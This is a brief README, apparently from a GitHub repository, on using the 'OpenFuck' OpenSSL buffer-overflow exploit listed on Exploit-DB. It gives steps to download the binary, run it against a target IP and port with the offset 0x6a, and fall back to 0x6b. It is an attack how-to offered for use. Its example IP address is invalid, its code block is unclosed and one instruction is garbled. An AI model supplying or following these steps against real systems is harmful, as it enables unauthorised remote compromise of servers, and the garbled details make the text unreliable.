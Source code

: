# OpenSSL-OpenFuck-Buff-overflow-binary
 Exploit - https://www.exploit-db.com/exploits/764

1. Download OpenFuck

2. ./OpenFuck 0x6a [Target Ip] [port] 

for example:
```
./OpenFuck 0x6a 192.168.20.445 


if 0x6a did work try with 0x6b
# OpenSSL-OpenFuck-Buff-overflow-binary
